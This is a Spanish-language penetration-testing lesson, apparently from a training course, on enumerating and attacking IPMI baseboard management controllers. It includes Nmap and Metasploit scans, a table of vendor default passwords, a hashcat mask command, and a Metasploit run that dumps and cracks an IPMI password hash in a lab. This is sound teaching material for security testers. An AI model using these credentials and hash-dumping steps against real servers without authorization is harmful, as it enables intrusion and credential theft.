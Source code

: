 [Intelligent Platform Management Interface](https://www.thomas-krenn.com/en/wiki/IPMI_Basics) (`IPMI`) es un conjunto de especificaciones estandarizadas para sistemas de gestión de hardware utilizados para la administración y monitorización de sistemas. Actúa como un subsistema autónomo y funciona independientemente del BIOS, CPU, firmware y sistema operativo subyacente del host. IPMI proporciona a los administradores de sistemas la capacidad de gestionar y monitorear sistemas incluso si están apagados o en un estado no receptivo. Opera usando una conexión de red directa al hardware del sistema y no requiere acceso al sistema operativo mediante una shell de inicio de sesión. IPMI también puede ser utilizado para actualizaciones remotas a los sistemas sin necesidad de acceso físico al host objetivo. IPMI se utiliza típicamente de tres maneras:

- Antes de que el sistema operativo haya arrancado para modificar la configuración del BIOS
- Cuando el host está completamente apagado
- Acceso a un host después de una falla del sistema

Cuando no se usa para estas tareas, IPMI puede monitorear una variedad de cosas diferentes como la temperatura del sistema, voltaje, estado de los ventiladores y fuentes de alimentación. También puede ser utilizado para consultar información de inventario, revisar registros de hardware y alertar utilizando SNMP. El sistema host puede estar apagado, pero el módulo IPMI requiere una fuente de alimentación y una conexión LAN para funcionar correctamente.

El protocolo IPMI fue publicado por primera vez por Intel en 1998 y ahora es compatible con más de 200 proveedores de sistemas, incluidos Cisco, Dell, HP, Supermicro, Intel y más. Los sistemas que utilizan la versión 2.0 de IPMI pueden ser administrados vía serial sobre LAN, dando a los administradores de sistemas la capacidad de ver la salida de la consola serial en banda. Para funcionar, IPMI requiere los siguientes componentes:

- **Baseboard Management Controller (BMC)** - Un microcontrolador y componente esencial de IPMI
- **Intelligent Chassis Management Bus (ICMB)** - Una interfaz que permite la comunicación de un chasis a otro
- **Intelligent Platform Management Bus (IPMB)** - Extiende el BMC
- **IPMI Memory** - Almacena cosas como el registro de eventos del sistema, datos de almacenamiento del repositorio y más
- **Interfaces de Comunicaciones** - Interfaces de sistema local, interfaces serial y LAN, ICMB y PCI Management Bus

---
## Footprinting the Service

IPMI se comunica sobre el puerto 623 UDP. Los sistemas que utilizan el protocolo IPMI se llaman Baseboard Management Controllers (BMCs). Los BMCs generalmente se implementan como sistemas ARM embebidos que ejecutan Linux y están conectados directamente a la placa base del host. Los BMCs están integrados en muchas placas base, pero también pueden ser añadidos a un sistema como una tarjeta PCI. La mayoría de los servidores vienen con un BMC o soportan la adición de un BMC. Los BMCs más comunes que solemos ver durante las pruebas de penetración internas son HP iLO, Dell DRAC y Supermicro IPMI. Si podemos acceder a un BMC durante una evaluación, obtendríamos acceso completo a la placa base del host y podríamos monitorear, reiniciar, apagar o incluso reinstalar el sistema operativo del host. Acceder a un BMC es casi equivalente a tener acceso físico a un sistema. Muchos BMCs (incluyendo HP iLO, Dell DRAC y Supermicro IPMI) exponen una consola de gestión basada en web, algún tipo de protocolo de acceso remoto por línea de comandos como Telnet o SSH, y el puerto 623 UDP, que, nuevamente, es para el protocolo de red IPMI. A continuación se muestra un escaneo Nmap utilizando el script NSE [ipmi-version](https://nmap.org/nsedoc/scripts/ipmi-version.html) de Nmap para obtener una huella del servicio.

### Nmap

```r
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

Aquí, podemos ver que el protocolo IPMI está escuchando en el puerto 623, y Nmap ha identificado la versión 2.0 del protocolo. También podemos usar el módulo escáner de Metasploit [IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/).

### Metasploit Version Scan

```r
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Durante las pruebas de penetración internas, a menudo encontramos BMCs donde los administradores no han cambiado la contraseña predeterminada. Algunas contraseñas predeterminadas únicas para mantener en nuestras hojas de trucos incluyen:

| Producto        | Nombre de usuario | Contraseña                                                                  |
| --------------- | ----------------- | --------------------------------------------------------------------------- |
| Dell iDRAC      | root              | calvin                                                                      |
| HP iLO          | Administrator     | cadena aleatoria de 8 caracteres que consiste en números y letras mayúsculas|
| Supermicro IPMI | ADMIN             | ADMIN                                                                       |

También es esencial probar las contraseñas predeterminadas conocidas para cualquier servicio que descubramos, ya que a menudo se dejan sin cambiar y pueden llevar a victorias rápidas. Cuando se trata de BMCs, estas contraseñas predeterminadas pueden darnos acceso a la consola web o incluso acceso por línea de comandos vía SSH o Telnet.

---
## Dangerous Settings

Si las credenciales predeterminadas no funcionan para acceder a un BMC, podemos recurrir a una [falla](http://fish2.com/ipmi/remote-pw-cracking.html) en el protocolo RAKP en IPMI 2.0. Durante el proceso de autenticación, el servidor envía un hash SHA1 o MD5 salado de la contraseña del usuario al cliente antes de que tenga lugar la autenticación. Esto puede ser aprovechado para obtener el hash de la contraseña de cualquier cuenta de usuario válida en el BMC. Estos hashes de contraseña pueden luego ser descifrados fuera de línea utilizando un ataque de diccionario con `Hashcat` en modo `7300`. En el caso de un HP iLO utilizando una contraseña predeterminada de fábrica, podemos usar este comando de ataque con máscara de Hashcat `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` que intenta todas las combinaciones de letras mayúsculas y números para una contraseña de ocho caracteres.

No hay una "solución" directa para este problema porque la falla es un componente crítico de la especificación IPMI. Los clientes pueden optar por contraseñas muy largas y difíciles de descifrar o implementar reglas de segmentación de red para restringir el acceso directo a los BMCs. Es importante no pasar por alto IPMI durante las pruebas de penetración internas (lo vemos durante la mayoría de las evaluaciones) porque no solo podemos obtener acceso a la consola web del BMC, que es un hallazgo de alto riesgo, sino que hemos visto entornos donde se establece una contraseña única (pero descifrable) que luego se reutiliza en otros sistemas. En una de estas pruebas de penetración, obtuvimos un hash de IPMI, lo desciframos fuera de línea usando Hashcat y pudimos acceder por SSH a muchos servidores críticos en el entorno como usuario root y obtener acceso a consolas de gestión web para varias herramientas de monitoreo de red.

Para recuperar hashes de IPMI, podemos usar el módulo Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/).

### Metasploit Dumping Hashes

```r
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Aquí podemos ver que hemos obtenido con éxito el hash de la contraseña para el usuario `ADMIN`, y la herramienta pudo descifrarlo rápidamente para revelar lo que parece ser una contraseña predeterminada `ADMIN`. A partir de aquí, podríamos intentar iniciar sesión en el BMC o, si la contraseña fuera algo más único, verificar la reutilización de contraseñas en otros sistemas. IPMI es muy común en entornos de red ya que los administradores de sistemas necesitan poder acceder a los servidores de forma remota en caso de una interrupción o realizar ciertas tareas de mantenimiento que tradicionalmente habrían tenido que estar físicamente frente al servidor para completar. Esta facilidad de administración viene con el riesgo de exponer hashes de contraseñas a cualquiera en la red y puede llevar a accesos no autorizados, interrupciones del sistema e incluso ejecución remota de código. Verificar IPMI debería ser parte de nuestro manual de pruebas de penetración internas para cualquier entorno que evaluemos.